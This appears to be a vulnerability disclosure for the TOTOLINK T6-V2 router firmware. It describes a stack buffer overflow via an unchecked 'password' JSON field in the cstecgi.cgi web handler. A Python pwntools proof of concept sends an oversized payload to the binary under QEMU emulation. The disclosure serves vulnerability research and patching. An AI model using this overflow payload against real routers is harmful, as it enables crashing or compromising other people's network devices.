


## Overview

- The device's official website: http://www.totolink.cn/home/menu/detail.html?menu_listtpl=products&id=16&ids=33
- Firmware download website: http://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=16&ids=36

## Affected version

T6-V2 V4.1.9cu.5179_B20201015

## Vulnerability details

The vulnerability exists in the router's WEB component. `/web_cste/cgi-bin/cstecgi.cgi` `FUN_00413f80` (at address 0x413f80) gets the JSON parameter `password`, but without checking its length, copies it directly to local variables in the stack, causing stack overflow: 



The program gets the JSON parameter `encrypt`, `password`, `opmode`. When `encrypt` is equal to `WEP` and `opmode` is equal to `rpt`, the program will enter the branch at line 268.



## PoC

```python
from pwn import *
import json

data = {
    "topicurl": "setting/setWiFiRepeaterCfg",
    "opmode": "rpt",
    "encrypt": "WEP",
    "password": "A"*0x400,
}

data = json.dumps(data)
print(data)

argv = [
    "qemu-mipsel-static",
    "-g", "1234",
    "-L", "./root/",
    "-E", "CONTENT_LENGTH={}".format(len(data)),
    "-E", "REMOTE_ADDR=192.168.2.1",
    "./cstecgi.cgi"
]

a = process(argv=argv)
a.sendline(data.encode())

a.interactive()
```

